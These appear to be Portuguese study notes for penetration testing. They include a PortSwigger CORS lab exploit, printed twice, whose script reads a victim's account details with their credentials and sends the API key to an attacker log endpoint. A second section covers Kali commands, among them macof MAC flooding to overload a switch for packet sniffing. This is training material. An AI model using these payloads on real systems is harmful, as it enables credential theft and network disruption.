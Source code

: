 Lab 1 de CORS da PortSwigger:

Com isso, simulamos a construção de um script, ou exploit, que assim que o usuário acessar, por meio dos logs conseguimos ver sua API key por estar aberta a compartilhamento entre sites pela configuração falha do CORS.

```
<html>
<body>
<script>
   var xhrequest = new XMLHttpRequest();
   // Preencha com a URL do seu laboratorio aqui:
   var url = "https://0abe00ef04a17ad3c0102ceb00270080.web-security-academy.net"

   xhrequest.open('GET', url + "/accountDetails", true);
   xhrequest.withCredentials = true;
   xhrequest.send(null)

   xhrequest.onreadystatechange = function() {
       if (xhrequest.readyState == XMLHttpRequest.DONE){
           fetch("/log?key=" + xhrequest.responseText)
       }
   }
</script>
</body>
</html>
```
<html>
<body>
<script>
   var xhrequest = new XMLHttpRequest();
   // Preencha com a URL do seu laboratorio aqui:
   var url = "https://0abe00ef04a17ad3c0102ceb00270080.web-security-academy.net"

   xhrequest.open('GET', url + "/accountDetails", true);
   xhrequest.withCredentials = true;
   xhrequest.send(null)

   xhrequest.onreadystatechange = function() {
       if (xhrequest.readyState == XMLHttpRequest.DONE){
           fetch("/log?key=" + xhrequest.responseText)
       }
   }
</script>
</body>
</html>

## Kali-Linux 
https://github.com/wwong99/pentest-notes/blob/master/oscp_resources/OSCP-Survival-Guide.md#kali-linux
```
$ macof -i eth0     => O comando macof, se refere a overflow de endereços mac. É preciso informar em que interface ( -i) esse ataque será realizado. No nosso caso, temos a eth0, a placa de rede que está conectada ao switch no programa de emulação. Ao dar enter, ele começará a mandar uma infinidade de endereços para o switch, a fim de lotar a memória e fazer com que ele trabalhe como um switch, podendo assim pegarmos informações de pacotes com o wireshark
$ arp -a            => Ver quais endereços MAC estão salvos para serem usados pelo ARP
$ `netstat -lntp`       => Show active internet connections
$ netstat -antp |grep apache                    => Verify a service is running and listening
$ md5sum <file>     => Verifica a integridade um arquivo transferido pela rede (ex: via Netcat TCP/UDP), gera um códido hash, se esse código hash no remetente e no destinatário forem iguais, então a transferência deu certo
$ netdiscover -i eth0
```
